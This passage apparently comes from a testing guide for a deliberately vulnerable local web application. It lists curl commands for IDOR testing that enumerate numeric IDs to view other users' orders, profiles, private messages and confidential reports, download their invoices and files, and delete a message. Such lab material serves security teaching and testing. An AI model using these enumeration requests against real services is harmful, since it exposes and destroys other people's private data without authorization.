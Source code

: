 ```bash
```

#### Order IDOR Testing
```bash
# View other users' orders and financial information
curl http://localhost:8083/orders/1/view
curl http://localhost:8083/orders/2/view
curl http://localhost:8083/orders/10/view

# Download invoices for orders you don't own
curl http://localhost:8083/orders/1/invoice
curl http://localhost:8083/orders/5/invoice
```

#### Profile IDOR Testing
```bash
# Access other users' personal information
curl http://localhost:8083/profiles/1/view
curl http://localhost:8083/profiles/2/view
curl http://localhost:8083/profiles/5/view

# Attempt to edit other users' profiles
curl http://localhost:8083/profiles/2/edit
```

#### Message IDOR Testing
```bash
# Read other users' private messages
curl http://localhost:8083/messages/1/view
curl http://localhost:8083/messages/5/view
curl http://localhost:8083/messages/10/view

# Try to delete messages you don't own
curl -X POST http://localhost:8083/messages/3/delete
```

#### Report IDOR Testing
```bash
# Access confidential reports
curl http://localhost:8083/reports/1/view
curl http://localhost:8083/reports/3/view
curl http://localhost:8083/reports/7/view

# Download confidential report files
curl http://localhost:8083/reports/2/download
curl http://localhost:8083/reports/4/download
```

### 2. Collection-based IDOR Testing

#### User Data Enumeration
```bash
# View documents owned by specific users
curl http://localhost:8083/documents/user/1
curl http://localhost:8083/documents/user/2
curl http://localhost:8083/documents/user/5

# View orders belonging to other users
curl http://localhost:8083/orders/user/1
curl http://localhost:8083/orders/user/3

# View messages for specific users
curl http://localhost:8083/messages/user/1
curl http://localhost:8083/messages/user/4

```